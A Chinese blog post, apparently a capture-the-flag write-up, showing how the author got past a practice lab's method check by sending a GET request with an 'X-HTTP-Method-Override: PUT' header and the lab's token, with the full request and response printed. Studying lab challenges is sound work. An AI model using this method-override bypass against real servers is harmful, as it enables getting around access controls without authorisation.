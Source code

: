 ```yaml
---
layout: post
title: '不拦截攻击的奇怪的WAF-writeup'
date: 2020-04-01
author: 吃饭去
cover: '../assert'
tags: demo
typora-root-url: a\a
typora-copy-images-to: ..\assets\img
---
```


# 不拦截攻击的奇怪的WAF-writeup

平时一起打手游的同事突然来问了一个题目，来自网络安全实验室（http://hackinglab.cn/），第一感觉是很老的题目，想着直接搜下writeup就可以了。结果一直没找到，只好自己动手做一下了。



题目链接：http://lab1.xseclab.com/base15_f6a5ee4d1e17952a3411932ab88f8e93/index.php

一进去就给了源码，看着一点难度都没有。

```php
I am backend Server;Only Accept PUT Method!<!--<?php
require_once "config.php";
if($_SERVER['REQUEST_METHOD']!="PUT") {
    
    echo "I am backend Server;Only Accept PUT Method!<!--";
    echo file_get_contents(__FILE__);
    die();
}

$post_data = json_decode(file_get_contents("php://input"),true);
if($post_data['token']==="5cb7a68628d276261a89f7807f671415"){
    echo "小红的年龄是: ".$flag;
}
```

但是直接改PUT会提示只允许使用GET，也就是说要让服务器认为你是GET，并且通过`$_SERVER['REQUEST_METHOD']!="PUT"`的校验。

![1585730312588](/../../../assets/img/1585730312588.png)

只好google了下，找到了`X-HTTP-Method-Override`，可以在GET/POST方法下模拟PUT/DELETE等RESTFUL API，感觉就是这个了~

最后的payload:

```
GET /base15_f6a5ee4d1e17952a3411932ab88f8e93/index.php HTTP/1.1
Host: lab1.xseclab.com
Proxy-Connection: keep-alive
Cache-Control: max-age=0
X-HTTP-Method-Override: PUT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.81 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=f9eb65ba669fd0c49691808834411551
Content-Length: 44

{"token":"5cb7a68628d276261a89f7807f671415"}


HTTP/1.1 200 OK
Server: nginx
Date: Wed, 01 Apr 2020 08:08:11 GMT
Content-Type: text/html;charset=utf-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
WAF: PASS
Via: 3832
Content-Length: 46

小红的年龄是: flagis: **************
```

















